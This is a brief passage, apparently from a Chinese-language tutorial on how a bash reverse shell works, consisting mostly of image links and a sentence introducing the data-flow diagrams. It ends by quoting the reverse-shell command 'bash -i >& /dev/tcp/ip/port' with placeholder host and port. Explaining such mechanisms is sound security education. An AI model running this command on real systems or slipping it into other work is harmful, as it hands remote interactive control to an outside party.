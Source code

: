 [![32KC81aH0J.png](Untitled.assets/15319944313563.png)](https://image.3001.net/images/20180719/15319944313563.png)



为了更形象的理解，下面给出了整个过程的数据流向，首先是本地的输入输出流向：



[![I9E4l0E31l.png](Untitled.assets/15319944497064.png)](https://image.3001.net/images/20180719/15319944497064.png)执行`bash -i >& /dev/tcp/ip/port`后
